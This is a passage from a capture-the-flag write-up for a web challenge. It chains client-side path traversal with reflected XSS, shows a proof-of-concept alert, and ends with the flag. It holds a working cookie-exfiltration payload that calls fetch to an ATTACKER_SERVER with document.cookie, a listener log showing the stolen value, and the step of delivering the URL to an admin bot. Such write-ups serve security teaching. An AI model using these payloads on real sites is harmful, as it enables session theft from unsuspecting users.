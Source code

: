 
Our input is reflected! Now it's time to try a different URL 😈

We want to add an XSS payload to the `name` parameter without interfering with the CSPT path. The best way to do this is by adding a query parameter, e.g., `/contact?xss=<img src=x onerror=alert(1)/>`, _but_ we need to URL-encode the `?` (or `#`) to ensure it's not processed by the `/view` endpoint.

`http://127.0.0.1/view?note=0c7cb26e-9095-48dc-b984-8cc9fcc76b4c&name=....//....//....//contact%3fxss=<img src=x onerror=alert(1)>`

![](./images/13.PNG)

We popped an alert! Now we'll set up an attacker server to exfiltrate the cookie and update our payload one final time 😌

{% code overflow="wrap" %}
```
http://127.0.0.1/view?note=0c7cb26e-9095-48dc-b984-8cc9fcc76b4c&name=....//....//....//contact%3fxss=<img/src/onerror=fetch('https://ATTACKER_SERVER/?'%2bdocument.cookie)>
```
{% endcode %}

Note: you do need to URL-encode the `+` to `%2b` in the fetch request.

Checking the server logs, we get a hit containing the user cookie!

{% code overflow="wrap" %}
```bash
python -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
127.0.0.1 - - [27/Aug/2024 14:49:16] "GET /?cryptocatisthebest HTTP/1.1" 200 -
```
{% endcode %}

Finally, we just send the exact same URL to admin/bot using the `/report` endpoint and receive the _real_ flag 🚩

Flag: `INTIGRITI{54f3n0735_3_w1ll_b3_53cur3_1_pr0m153}`
